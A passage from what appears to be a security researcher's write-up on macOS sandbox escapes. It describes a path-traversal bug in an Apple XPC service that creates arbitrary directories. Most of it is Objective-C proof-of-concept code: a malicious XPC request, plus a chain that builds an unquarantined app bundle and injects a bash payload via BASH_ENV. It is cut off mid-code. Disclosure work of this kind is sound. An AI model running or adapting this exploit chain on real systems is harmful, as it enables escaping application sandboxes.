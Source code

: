 #### The Exploit 2: Arbitrary Directory Create and Full Sandbox Esacpe

Moreover, at line 41 of the function “`createSignpostFile:`”:

![image-20241020163334261](../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020163334261.png)

It creates the directory at the “`powerlog`” path. So this gives the attacker a primitive to create an arbitrary directory:

```
@protocol XPCSignpostReaderProtocol <NSObject>
- (void) submitSignpostDataWithConfig:(id)config withReply:(void (^)(id))arg2;
@end
void my_create_path(NSString *path) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/PowerlogCore.framework"]load];
    conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.PerfPowerServicesSignpostReader"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCSignpostReaderProtocol)];
    [conn resume];
    [[conn remoteObjectProxy] submitSignpostDataWithConfig:@{
        @“taskingAllowlist":@{}, @"taskingStartDate":[NSDate now], @"taskingEndDate":[NSDate now], @“taskingSubmitSP":@1,
        @"taskingTagConfig":@{
            @"TagUUID":[NSString stringWithFormat:@"/../../../../../%@/logarchive", path],
            …
        }
    } withReply:^(id reply) {
        NSLog(@"reply:%@", reply);
    }];
}
```



In fact, **the primitive to create an arbitrary directory without the quarantine extended attribute can lead to a full sandbox escape**.

Here, I used the trick from [CVE-2023-32364](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html):

```
- (void)viewDidLoad {
    [super viewDidLoad];
    NSString *currentDir = NSHomeDirectory();
    NSString *payloadPath = [currentDir stringByAppendingPathComponent:@"payload"];
    [@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:payloadPath atomically:TRUE encoding:NSUTF8StringEncoding error:nil];
    NSString *myapp = [currentDir stringByAppendingPathComponent:@"poc.app"];
    my_create_path(myapp); // create .app folder without being quarantined
    
    mkdir("poc.app/Contents", 0777);
    mkdir("poc.app/Contents/MacOS", 0777);
    symlink("/bin/bash", "poc.app/Contents/MacOS/poc");
    NSString *cmd = [NSString stringWithFormat:@"defaults write \"%@/poc.app/Contents/Info\" LSEnvironment -dict-add BASH_ENV \"%@\"", currentDir, payloadPath];
```
